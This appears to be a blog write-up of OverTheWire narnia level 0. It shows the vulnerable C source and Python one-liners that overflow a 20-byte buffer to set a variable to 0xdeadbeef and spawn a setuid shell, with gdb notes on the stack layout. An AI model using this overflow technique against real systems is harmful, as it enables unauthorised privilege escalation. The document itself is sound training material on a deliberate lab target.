


+++
title = "narnia0"
date = "2026-02-10"
draft = false
+++

Back in 2016, I started with bandit and it left it at that…

Now, a decade after I pick up **narnia**.

Login is standard as in any OTW wargame with an SSH.

```
ssh narnia0@narnia.labs.overthewire.org -p2226
```

In case of narnia, all target C code (for white-box analysis) and the corresponding binaries are at `/narnia` location.
Passphrases to the next levels are at `/etc/narnia_pass/narnia/`.

Now, that we are in, lets inspect the C code for `narnia0`.

```c
#include 
#include 

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

The success condition in the above code seems to rely on the value of the variable `val`.
So, how can we affect this value to `0xdeadbeef` to reach the success code branch?

Well, we can also observe a classic buffer overflow in this case.

We allocate 20 bytes to the char buffer `buf` whereas, user’s input is 24 bytes into the `buf` (thus a scope of 4 byte overflow).\

Let’s execute the binary and provide an input to verify if we can overwrite the value of the `val` variable.

```shell
narnia0@narnia:/narnia$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*20 + b'B'*4)" | ./narnia0
Correct val\'s value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAABBBB
val: 0x42424242
WAY OFF!!!!
```

That was simple enough… we can control the value to th `val` variable. Now we need to pivot to the success code path by changing `val` to `0xdeadbeef`.

Note that we’d need to supply the `0xdeadbeef` in little endian ordering as it’s intel architecture.

```shell
narnia0@narnia:/narnia$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*20 + b'\xef\xbe\xad\xde'*4)" | ./narnia0
Correct val\'s value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
narnia0@narnia:/narnia$ id
uid=14000(narnia0) gid=14000(narnia0) groups=14000(narnia0)
```

Well, it worked but we are still `narnia0` not `narnia1`. Why?
Looking at the code closely, it seems to be this snippet:

```c
  if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
```

So, when passing value to scanf via a pipe `|`, our python invocation provides the strings to the program and when it goes to the `system` call to `/bin/sh`, the input steam has already come to an end. The `sh` shell has nothing to provide to it’s standard input and the program exits.
We need a way to either hold the shell by keeping the stdin from the `|` open or provide it a shell command to execute.

- 
Approach 1:
We pass the command to execute as a string to the pipe

```shell
 narnia0@narnia:/narnia$ (python3 -c "import sys; sys.stdout.buffer.write(b'A'*20 + b'\xef\xbe\xad\xde'*4)"; echo 'id') | ./narnia0
 Correct val's value from 0x41414141 -> 0xdeadbeef!
 Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
 val: 0xdeadbeef
 uid=14001(narnia1) gid=14000(narnia0) groups=14000(narnia0)
```
- 
Approach 2:
The command `cat` when provided with no arguments basically funnels stdin to stdout and thus holds the `/bin/sh` shell the binary provides.
In this case we land an interactive shell.

```shell
narnia0@narnia:/narnia$ (python3 -c "import sys; sys.stdout.buffer.write(b'A'*20 + b'\xef\xbe\xad\xde'*4)"; cat) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
id
uid=14001(narnia1) gid=14000(narnia0) groups=14000(narnia0)
```

**Extra bits**
It is interesting to know how these variables are located in the memory and thus I decided I’d inspect via `gdb` as well.

Firstly, lets look at the disassembly of the binary.
>

I specifically set a breakpoint at `b *main+49` where the `scanf` instruction was while reading the user input.

Also, note the instructon at `*main+7` which is `mov DWORD PTR [ebp-0x8], 0x41414141`. This corresponds to the C code `long val=0x41414141;`.

Which means that `val` is at location [ebp-0x8]. And the next variable `buf` being a char array of 20 size (0x14) is located at the relative address of [ebp-(0x8+0x14)], i.e. `[ebp-0x1c]`. As variables are located on the stack, this shows how the stack is incremeted for every new variable, just incremented in the negative direction.

Look how, when stepping over the `scanf` instruction, the value of `val` at `[ebp-0x8]` gets overwritten (or overflowed).
>
